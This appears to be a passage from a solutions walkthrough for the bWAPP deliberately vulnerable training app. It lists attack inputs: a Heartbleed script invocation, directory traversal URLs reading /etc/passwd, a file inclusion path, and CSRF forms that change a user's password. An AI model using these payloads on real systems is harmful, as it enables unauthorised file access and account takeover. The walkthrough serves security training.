 ### Heartbleed Vulnerability

Use the heartbleed.py script found in the /evil directory

```
python heartbleed.py [ip] 
```



# A7 - Missing Functional Level Access Control

### Directory Traversal - Directories
directory_traversal_2.php
```
/bWAPP/directory_traversal_2.php?directory=../../../../home/
```

### Directory Traversal - Files
directory_traversal_1.php
```
/bWAPP/directory_traversal_1.php?page=../../../../../etc/passwd
```

### Host Header Attack (Cache Poisoning)
hostheader_1.php

![](https://github.com/skiptomyliu/solutions-bwapp/blob/master/screenshots/hostheader_1_1.png)

### Host Header Attack (Reset Poisoning)
hostheader_2.php

![]()

### Remote & Local File Inclusion (RFI/LFI)

Copy rfi.txt to rfi.php, it appears PHP automatically adds the suffix .php. 
```
bWAPP/rlfi.php?language=../evil/rfi
```

# A8 - Cross-Site Request Forgery (CSRF)

Reference the HTML files in resources directory.  You can modify these to auto execute in a hidden iframe as an exercise.  If bWAPP had CSRF mitigations (such as utilization of tokens), then the POST requests made from the csrf_x.html files would respond with forbidden.

### Cross-Site Request Forgery (Change Password)
Please reference [csrf_1.html](resources/csrf_1.html).  Replace the address within the HTML with your own bWAPP server and run the form to change the password.  If CSRF tokens were utilized, then the server should return forbidden.  
